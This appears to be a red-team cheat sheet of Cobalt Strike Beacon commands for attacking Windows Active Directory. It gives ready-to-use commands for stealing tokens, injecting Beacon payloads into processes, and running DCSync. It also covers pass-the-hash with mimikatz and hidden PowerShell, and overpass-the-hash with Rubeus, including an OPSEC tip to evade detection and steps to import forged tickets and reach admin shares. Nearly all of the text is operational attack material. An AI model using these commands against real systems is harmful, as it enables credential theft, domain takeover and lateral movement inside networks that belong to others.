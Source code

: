 #### Steal token
```
steal_token 3320
steal_token <PID>
````

#### Inject payload into process
```
inject 3320 x64 tcp-4444-local
inject <PID> <ARCH> <BEACON>
```

#### Spawnas
- Will spawn a new process using the plaintext credentials of another user and inject a Beacon payload into it.
- Must be run from a folder the user has access to.
- This command does not require local admin privileges and will also usually fail if run from a SYSTEM Beacon.
```
spawnas <DOMAIN>\<USER> <PASSWORD> <BEACON>
```

#### Dcsync
```
dcsync
```

#### Pass the hash
```
pth <DOMAIN>\<USER> <NTLM HASH>
```

```
mimikatz sekurlsa::pth /user:Administrator /domain:<DOMAIN> /ntlm:<NTLM> /run:"powershell -w hidden"
steal_token <PID>
```

#### Overpass the hash
- OPSEC: Use AES256 keys
```
execute-assembly Rubeus.exe asktgt /user:<USER> /domain:<DOMAIN> /rc4:<NTLM HASH> /nowrap
execute-assembly Rubeus.exe asktgt /user:<USER> /domain:<DOMAIN> /aes256:<AES256 HASH> /nowrap /opsec

#Create new logon session
make_token <DOMAIN>\<USER> DummyPass
[System.IO.File]::WriteAllBytes("C:\Users\public\ticket.kirbi", [System.Convert]::FromBase64String("[...ticket...]"))
kerberos_ticket_use C:\Users\public\ticket.kirbi

ls \\<HOSTNAME>\c$
```

#### Overpass the hash elevated context
```
execute-assembly Rubeus.exe asktgt /user:<USER> /domain:<DOMAIN> /aes256:<AES256 HASH> /nowrap /opsec /createnetonly:C:\Windows\System32\cmd.exe

#output: [+] ProcessID       : <PID>

steal_token <PID>

ls \\<HOSTNAME>\c$
```
